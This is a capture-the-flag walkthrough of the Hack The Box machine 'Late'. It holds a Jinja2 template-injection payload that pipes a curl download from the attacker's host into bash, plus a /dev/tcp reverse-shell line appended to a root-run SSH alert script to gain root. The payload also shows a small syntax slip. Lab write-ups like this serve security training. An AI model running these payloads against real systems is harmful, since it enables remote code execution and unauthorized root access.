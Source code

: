 ```yaml
---
layout: post
title: [HTB] Late
difficulty: easy
tags: [ssti]
status: Complete
---
```

***

## Quick Hits:

| Info | Details |
| ---- | ------- |
| **IP Address** | 10.10.11.156 |
| **Difficulty** | 🟢 Easy |
| **Exploits** | Server-Side Template Injection |
| **Tools Used** |  |
| **Techniques Used** |  |
| **Interesting Files** |  |

#### Port Scan Results:

| Port | State | Service | Version |
| ---- | ----- | ------- | ------- |
| 22/tcp | open | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open | http | nginx 1.14.0 (Ubuntu) |

***

## Walk-through

Visiting the website leads us to a simple landing page with marketing materials for an online photo editor. Going through the pages within the site gives us a link to `images.late.htb`, which we can include in our `/etc/hosts` file to browse.

### Server-Side Template Injection

The `images.late.htb` site contains an Image to Text conversion application. It uses some Optical Character Recognition (OCR) library to detect any text from an image, and return it back in the response. This application seems to be an implementation of [lucadibello/ImageReader](https://github.com/lucadibello/ImageReader), which renders the `text` output using the `render_template` function.

``` python
@app.route('/result')
def result():
    if "data" in session:
        data = session['data']
        return render_template(
            "result.html",
            title="Result",
            time=data["time"],
            text=data["text"],
            words=len(data["text"].split(" "))
        )
    else:
        return "Wrong request method."
```
{% raw %}
In Flask, the `render_template` function allows us to evaluate expressions using the `{{ ... }}` syntax. For example, mathematical expressions such as `{{7*7}}` would be evaluated and would result in an output of `49`. We can use this technique to execute code using the Flask engine.

We can create and image that simply says: `{{7*7}}`, and just as we thought, it gave us the following response, confirming the Server-Side Template Injection:

``` html
<p>49
</p>
```

This required a lot of tinkering of the image to get the exploit to work. The OCR was not particularly consistent, so a lot of characters were interpreted differently. In the end, I was able to create an image with the following payload to successfully create a reverse shell connection back to my machine:

``` python
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen("curl 10.10.10.10 | bash".read() }}
```
{% endraw %}
 **TIP:** I hosted a Reverse-Shell Bash script in an HTTP server so that it can pipe that over to `bash` after `curl`ing it.

***And, we're in!***

### Privilege Escalation

Running `linpeas.sh` would give us back an interesting script file: `/usr/local/sbin/ssh-alert.sh`. This seems to sends an email notification to `root@late.htb` whenever an SSH login is detected.

``` bash
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

When we check the file, it's actually owned by our current user `svc_acc`. So, we can change the script and it will execute our code when an SSH login is detected. However, when we try doing so, we are blocked because the `a` attribute for the file is set, meaning we can only append to it.

```
svc_acc@late:~$ ls -l /usr/local/sbin/ssh-alert.sh
-rwxr-xr-x 1 svc_acc svc_acc 433 Jul 25 21:01 /usr/local/sbin/ssh-alert.sh

svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```

We can simply append a reverse-shell command to the `ssh-alert.sh` script to connect back to our machine. But first, we need to be able to login using SSH first. To do so, we can get the SSH private key of `svc_acct` from `home/svc_acc/.ssh/id_rsa` and copy it over to our machine.

```
svc_acc@late:/usr/local/sbin$ echo "bash -i >& /dev/tcp/10.10.10.10/37117 0>&1" >> ssh-alert.sh
```

Finally, we can then listen for the reverse-shell connection and use the private key of the `svc_acct` (`id_rsa`) to login through SSH, triggering the code we appended.

```
$ nc -nlvp 37117
listening on [any] 37117 ...
connect to [10.10.10.10] from late.htb [10.10.11.156] 41502
bash: cannot set terminal process group (1975): Inappropriate ioctl for device
bash: no job control in this shell
root@late:/# whoami
root
```
***And, we're done!***
